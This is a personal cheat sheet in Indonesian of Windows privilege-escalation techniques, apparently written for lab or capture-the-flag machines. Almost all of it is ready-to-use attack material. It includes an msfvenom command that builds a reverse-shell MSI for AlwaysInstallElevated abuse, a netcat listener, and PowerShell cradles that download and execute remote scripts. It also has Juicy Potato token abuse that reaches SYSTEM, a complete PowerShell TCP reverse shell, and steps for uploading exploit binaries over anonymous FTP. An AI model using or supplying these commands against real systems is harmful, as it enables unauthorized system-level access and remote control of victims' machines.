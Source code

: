 # PrivescCheck 

dipake untuk cek privesc

    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Always Install Elevated

https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path

allow user buat install package dengan akses system
cara cek bis apaka `PrivescCheck` kalo enabled bisa pakai msfvenom buat bikin exploit

    msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

selanjutnya tinggal upload, listen, dan execute.

    nc -lvvp 1234

# whoami /priv

kalo SeImpersonatePrivilege enabled berarti bisa pakai lonley potato https://github.com/decoder-it/lonelypotato

enumnya bisa pakai https://github.com/rasta-mouse/Sherlock mirip linpeas

# Download file using powershell

    (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')

# Download file using powershell

    powershell.exe -c "Invoke-WebRequest 10.10.14.10:80/37049-64.exe -OutFile e.exe"
    
# juicy potato


    PS C:\Users\merlin\appdata\local\temp> .\lp.exe -t * -p .\rev.bat -l 1234
    Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1234
    ....
    [+] authresult 0
    {4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

lp.exe download disini: https://github.com/ohpe/juicy-potato/releases
isi rev.bat:

    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')

isi shell.ps1:

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


# this program cannot be run in dos mode

kalo ada FTP service run, set ke bin pakai perintah:

    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    Name (10.10.10.5:tripoloski): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> bin
    200 Type set to I.
    ftp> put 40564.exe
    local: 40564.exe remote: 40564.exe
    200 PORT command successful.

lalu jalankan binarnya

# COmpile x86 windows binary di linux

    i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32 